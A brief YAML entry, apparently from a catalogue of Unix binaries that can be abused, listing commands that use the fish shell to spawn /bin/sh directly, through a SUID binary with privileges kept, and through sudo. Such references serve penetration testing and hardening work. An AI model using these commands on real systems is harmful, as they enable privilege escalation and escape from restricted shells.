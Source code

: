 ```yaml
---
functions:
  shell:
    - code: fish -c '/bin/sh'
  suid:
    - code: ./fish -c '/bin/sh -p'
  sudo:
    - code: sudo fish -c '/bin/sh'
---
```

